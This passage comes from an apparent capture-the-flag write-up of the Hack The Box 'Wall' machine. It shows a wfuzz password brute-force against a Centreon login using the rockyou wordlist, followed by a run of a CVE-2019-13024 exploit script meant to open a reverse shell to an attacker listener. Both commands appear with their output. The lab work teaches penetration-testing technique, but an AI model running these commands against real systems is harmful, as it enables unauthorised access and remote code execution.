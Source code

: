 Next, I'll use wfuzz with a wordlist to bruteforce a valid login:

```
# wfuzz -w /opt/SecLists/Passwords/Leaked-Databases/rockyou-10.txt --hs 'Bad credentials' -XPOST -d 'username=admin&password=FUZZ' http://10.10.10.157/centreon/api/index.php?action=authenticate

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 92

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000027:   200        0 L      1 W      60 Ch       "password1"

Total time: 2.605513
Processed Requests: 92
Filtered Requests: 91
Requests/sec.: 35.30973
```

Hahaha, I should have tested this simple password before bruteforcing the login.

I can login to the Centreon app with `admin` / `password1`:

![](/assets/images/htb-writeup-wall/Screenshot_9.png)

The version is probably vulnerable to CVE-2019-13024 since it's running verison 19.04.0:

![](/assets/images/htb-writeup-wall/Screenshot_10.png)

I tried getting a reverse shell with the following but that didn't work:

```
# python Centreon-exploit.py http://10.10.10.157/centreon admin password1 10.10.14.19 4444
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 86c1c3f00327a8b146385ebc0ca23bde
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 0e9822c471232e62c101655d120676b6
[+] Injecting Done, triggering the payload
[+] Check your netcat listener !
```

The WAF might be preventing the exploit from working. I modified the exploit to add debugging and display the xml message

![](/assets/images/htb-writeup-wall/Screenshot_11.png)

Now I'm seeing that it's trying to execute `id%2523` but it not's configured in my exploit payload so maybe the WAF filtered out my payload.
